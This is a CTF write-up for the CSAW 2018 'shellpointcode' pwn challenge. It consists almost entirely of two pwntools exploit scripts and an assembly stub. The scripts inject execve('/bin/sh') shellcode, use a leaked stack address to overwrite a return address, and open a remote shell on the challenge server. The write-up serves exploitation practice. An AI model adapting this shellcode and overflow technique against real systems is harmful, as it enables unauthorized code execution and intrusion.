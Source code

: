 exploit.py:

```python
from pwn import *

context(arch = 'amd64', os = 'linux')

#p = process("./shellpointcode")
#p = gdb.debug("/home/manu/CTF/CSAW_2018/pwn/shellpointcode", '''
#        c
#''')

p = remote('pwn.chal.csaw.io',9005)
shell1 = "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x59\xff\xe4"
shell2 = "\x48\x31\xf6\x56\x57\x48\x89\xe7\x48\x31\xd2\xb0\x3b\x0f\x05"
node_1 = p.recvuntil("(15 bytes) Text for node 1:")
shellcode = "\x48\x31\xc0\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x89\xe7\x48\x31\xd2\xb0\x3b\x0f\x05"
p.sendline(shell1)
node_2 = p.recvuntil("(15 bytes) Text for node 2:")
p.sendline(shell2)
data = p.recvuntil("What are your initials?\x0a")
shellcode_addr = data.split("\n")[2].split(":")[1].strip()
addr = p64(int(shellcode_addr, 16)+0x28)
log.info("Shellcode addr = %s"%hex(int(shellcode_addr, 16)+0x28))
p.sendline("A"*11+addr)
p.interactive()
```

### solve5

```
global _start
    _start:
        xor rax, rax
        push rax
        pop rsi
        cdq
        pop rdi
        mov rdi, rsp
        mov al, 59
        syscall
```

```python
from pwn import *
p = '\x48\x31\xc0\x50\x5e\x99\x5f\x48\x89\xe7\xb0\x3b\x0f\x05'
r = remote('pwn.chal.csaw.io', 9005)
r.recvlines(4)
r.sendline(p)
r.recvline()
r.sendline('/bin/sh' + '\x00')
r.recvuntil('node.next: ')
leak = int(r.recvline(False), 16)
buf = leak + 0x28
r.recvlines(3)
r.sendline('A' * 11 + p64(buf))
r.recvline()
r.interactive()
```
